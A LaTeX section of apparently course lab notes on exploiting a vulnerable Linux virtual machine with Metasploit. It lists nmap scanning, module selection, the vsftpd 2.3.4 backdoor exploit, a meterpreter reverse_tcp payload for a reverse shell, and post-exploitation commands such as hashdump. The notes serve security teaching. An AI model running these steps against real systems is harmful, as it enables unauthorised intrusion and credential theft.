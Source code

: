 \subsection{Lab: Exploitation and Metasploit}
{
\textbf{Goal:} Learn practical exploitation using the Metasploit Framework (MSF).

\textbf{Target Environment:}
\begin{itemize}[noitemsep]
  \item Vulnerable Linux machine in virtual lab setup
  \item Services exposed: SSH, Samba, HTTP
\end{itemize}

\textbf{Key Commands:}
\begin{itemize}[noitemsep]
  \item \texttt{nmap -sS -sV -O -A <IP>} – scan target for open ports and services
  \item \texttt{msfconsole} – launch Metasploit CLI
  \item \texttt{search <keyword>} – find exploits or modules
  \item \texttt{use <module>} – load exploit/module
  \item \texttt{set RHOST <IP>} – set remote host
  \item \texttt{set PAYLOAD <payload>} – select appropriate payload
  \item \texttt{exploit} – execute attack
  \item \texttt{sessions -i <id>} – interact with session
  \item \texttt{getuid}, \texttt{sysinfo}, \texttt{ps}, \texttt{hashdump}, \texttt{shell} – post-exploitation
\end{itemize}

\textbf{Exploitation Process:}
\begin{itemize}[noitemsep]
  \item Scan for vulnerable services (e.g., VSFTPD)
  \item Search and select matching exploit in Metasploit
  \item Configure exploit parameters (RHOST, RPORT, payload)
  \item Launch exploit and gain reverse shell via Meterpreter
\end{itemize}

\textbf{Metasploit Modules Used:}
\begin{itemize}[noitemsep]
  \item \textbf{Exploit:} \texttt{exploit/unix/ftp/vsftpd\_234\_backdoor}
  \item \textbf{Payload:} \texttt{linux/x86/meterpreter/reverse\_tcp}
  \item \textbf{Auxiliary:} \texttt{scanner/portscan/tcp}, \texttt{scanner/ftp/ftp\_version}
\end{itemize}

}
